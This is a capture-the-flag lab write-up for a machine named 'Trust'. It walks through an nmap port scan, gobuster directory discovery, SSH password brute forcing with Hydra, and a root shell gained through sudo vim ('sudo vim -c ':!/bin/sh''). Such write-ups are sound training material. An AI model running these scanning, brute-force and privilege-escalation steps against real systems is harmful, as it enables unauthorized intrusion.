

# Trust

## Port Enumeration

To begin our scan, we use the Nmap tool  during our discovery phase. As we can see, we have the following open ports:

```ruby
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.18.0.2
```

```ruby
┌──(root㉿kali)-[/home/kali]
└─# nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.18.0.2  
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 64
80/tcp open  http    syn-ack ttl 64

```

## Examining the Web Page
We access the web page hosted on the Apache server and find this:


The first thing that comes to mind is to analyze the web page in search of strange links or any clues. As I don't find anything, I decide to investigate if there are hidden files or directories. For this, I'm going to use the Gobuster application.

```ruby
gobuster dir -u http://172.18.0.2/ -t 200 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,html

```


We find a suspicious file named secreto.php. When we access this file through the website's URL, we discover the following:


There appears to be one user account that we can try to access via SSH.

We need to find out the password to access the SSH service. For this, we're going to use the Hydra tool


It´s done!  the password is chocolate!! 

## Privilege Escalation

For privilege escalation, we need to identify which files we can execute with root privileges.

To find these files, we need to execute this command:

```ruby
sudo -l
```

we have this result:

```ruby
mario@385984ff1c20:~$ sudo -l
[sudo] password for mario: 
Matching Defaults entries for mario on 385984ff1c20:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User mario may run the following commands on 385984ff1c20:
    (ALL) /usr/bin/vim
mario@385984ff1c20:~$
```

We can execute the command 'vim' as root user, so I found in GTFOBins how to exploit it

```ruby
sudo vim -c ':!/bin/sh'
```
